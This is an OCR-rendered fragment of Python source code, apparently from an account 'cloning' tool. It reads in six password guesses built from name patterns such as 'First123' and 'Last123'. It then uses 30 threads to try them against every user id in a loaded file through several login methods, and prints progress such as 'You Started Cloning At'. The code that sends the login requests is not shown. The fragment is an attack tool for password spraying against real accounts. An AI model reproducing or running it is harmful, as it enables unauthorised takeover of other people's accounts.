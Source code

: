                                         ps_limit = 6

                                linex()

                                print(' First123 , Last123 , First Last')

                                linex()

                                for i in range(ps_limit):

                                        plist.append(input(f' [•] Put password {i+1}: '))

                                linex()

                                print(' CP ids Visible? (y/n): ')

                                linex()

                                cx=input(' [•] Choose: ')

                                if cx in ['y','Y','yes','Yes','1']:

                                        pcp.append('y')

                                else:

                                        pcp.append('n')

                                with tred(max_workers=30) as crack_submit:

                                        clear()

                                        total_ids = str(len(fo))

                                        print(' [•] Total account : \033[1;32m'+total_ids+f' \033[1;37m>> \033[1;37mMethod >> \033[1;37mM{mthd}')
                                        print (" [•] File Name : ",file)
                                        linex()
                                        print(" >> You Started Cloning At : "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
                                        linex()

                                        for user in fo:

                                                ids,names = user.split('|')

                                                passlist = plist

                                                if mthd in ['1','01']:

                                                        crack_submit.submit(ffb,ids,names,passlist)

                                                elif mthd in ['2','02']:

                                                        crack_submit.submit(api,ids,names,passlist)

                                                else:

                                                        crack_submit.submit(api1,ids,names,passlist)

                                print('\033[1;37m')

                                linex()

                                animation(' >> The process has completed')
